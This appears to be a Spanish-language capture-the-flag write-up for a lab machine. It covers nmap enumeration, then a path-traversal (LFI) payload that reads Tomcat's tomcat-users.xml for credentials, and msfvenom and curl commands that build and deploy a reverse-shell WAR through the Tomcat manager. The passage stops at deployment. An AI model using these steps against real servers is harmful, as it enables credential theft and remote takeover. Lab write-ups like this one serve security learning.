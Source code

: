 #### Apache Tomcat (8080)

```
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 8080

Como hemos visto anteriormente, en este puerto corre un **Apache Tomcat**.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FDmIy37qO1E5ujY8ISy1E%2Fimage.png?alt=media&#x26;token=c4d75b78-676f-4bbf-9840-173c51c57058" alt=""><figcaption></figcaption></figure>

Podemos ver lo que parece la documentación por defecto. Vamos ahora al otro puerto.

### Puerto 80

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrIutb7QcU4Vu3h4Ui8Jx%2Fimage.png?alt=media&#x26;token=e443bd0b-3e79-47b7-8645-1e68b7ca19e4" alt=""><figcaption></figcaption></figure>

### LFI

Podemos ver una página web normal y corriente, pero llama la atención que si le damos a "Read our statement..." nos redirige a [`http://megahosting.htb/news.php?file=statement`](http://megahosting.htb/news.php?file=statement) . Que si probamos un poco vemos que es vulnerable a **LFI**.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FLfCdqFTkRJZ6eExiEc91%2Fimage.png?alt=media&#x26;token=61f8b2a0-f2d7-4387-91dd-57ef9e9d9caf" alt=""><figcaption></figcaption></figure>

Probando rutas del Tomcat, la única que funciona es:

```
view-source:http://10.10.10.194/news.php?file=../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FxYmxEUVVp0c7UXRx2OLl%2Fimage.png?alt=media&#x26;token=5510106c-7b72-4bac-a221-a930d2d5e009" alt=""><figcaption></figcaption></figure>

## Explotación

Podemos ver ya un usuario y una contraseña. Sabiendo esto y viendo que tiene el permiso <mark style="color:purple;">manager-script</mark>, podemos entablar una reverse shell, pero primero vamos a crearla:

```
msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f war -o pwn.war
```

Una vez la tengamos, la subiremos:

```
curl -v -u <user>:$pass --upload-file pwn.war “http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true"
```
